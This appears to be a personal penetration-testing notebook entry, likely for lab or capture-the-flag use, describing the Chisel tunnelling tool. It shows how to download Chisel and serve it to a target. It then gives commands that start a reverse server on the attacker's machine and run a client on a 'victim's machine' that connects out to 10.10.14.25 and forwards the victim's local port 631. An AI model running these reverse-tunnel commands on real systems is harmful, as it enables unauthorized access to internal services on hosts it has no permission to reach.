 ```yaml
---
title: Chisel 🦦
tags:
  - Tool
---
```

## Download

- Go to the [Official repository](https://github.com/jpillora/chisel) 
- Select a release, clone it and unzip it:

```shell
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
gunzip chisel_1.10.1_linux_amd64.gz
# Now create a python server and upload it to the machine
```

## Usage

### On your machine

```shell
./chisel_1.10.1_linux_amd64 server -p 7000 --reverse 
```

### On victim's machine

```shell
chmod +x chisel_1.10.1_linux_amd64
./chisel_1.10.1_linux_amd64 client 10.10.14.25:7000 R:7631:localhost:631
```

>[!Note]
>You can change port (in my case 7000) to anyone.

Now you should be able to load that machine's port on your browser or make curl requests to it.